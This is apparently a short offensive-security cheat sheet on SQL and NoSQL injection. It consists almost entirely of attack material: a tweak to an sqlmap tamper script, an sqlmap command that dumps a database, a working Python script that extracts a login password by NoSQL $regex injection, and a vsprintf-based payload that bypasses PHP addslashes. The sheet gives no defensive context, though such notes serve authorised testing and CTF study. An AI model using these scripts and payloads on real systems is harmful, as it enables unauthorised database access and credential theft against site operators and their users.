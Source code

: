 # SQL Injection

### SQLMap

Modify unicode encoding in "/usr/share/sqlmap/tamper/charunicodeencode.py":

```python
while i < len(payload):
  if payload[i] == '%' and (i < len(payload) - 2) and payload[i + 1:i + 2] in string.hexdigits and payload[i + 2:i + 3] in string.hexdigits:
      retVal += "\\u00%s" % payload[i + 1:i + 3]
      i += 3
  else:
      retVal += '\\u%.4X' % ord(payload[i])
      i += 1
```

#### Connect with Credentials

```text
sqlmap -d "mysql://<user>:<password>@<ip>/<database>" --dump 
```

### NoSQL

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

Retrieve password:

```python
#!/usr/bin/env python3
import re
import requests
import string

chars = string.ascii_letters + string.digits + string.punctuation
password = ""
url = ""
done = False

while not done:
    done = True
    for c in chars:
        data = {
            "username": "",
            "password[$regex]": f"^{re.escape(password+c)}.*$",
            "login": "login"
        }
        r = requests.post(url, data=data, allow_redirects=False)
        if r.status_code == 302:     
            done = False       
            password += c
            print(f"[+] Found {c}")
print(f"[+] Password: {password}")
```

### PHP addslashes bypass using vsprintf

If vsprintf is used we can send the query like this \(replace \* with your injection\):

```text
xxx%1$\%27)*
```

